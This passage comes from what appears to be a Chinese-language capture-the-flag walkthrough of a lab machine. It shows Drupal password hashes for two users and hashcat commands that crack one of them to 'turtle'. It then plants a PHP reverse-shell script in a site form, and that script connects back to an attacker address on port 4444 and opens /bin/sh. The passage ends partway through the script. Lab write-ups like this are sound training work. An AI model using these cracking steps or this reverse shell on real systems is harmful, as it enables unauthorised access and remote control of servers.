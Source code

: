 发现admin和john密码hash

```
$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z
$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF
```

使用hashcat跑一下

```
echo "\$S\$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z" > dc8_pass.txt
echo "\$S\$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF" >> dc8_pass.txt
hashcat -m 7900 -a 0 dc8_pass.txt /usr/share/john/password.lst -o result.txt --show
```

![image-20211006231522611](/assets/img/image-20211006231522611.png)

跑出了john的密码turtle，在http://172.16.89.9/user下登陆，后台有一个设置php代码的地方

![image-20211006233225903](/assets/img/image-20211006233225903.png)

设置php回弹shell代码，在表单提交时触发

```php
aaa
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '172.16.89.2';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
```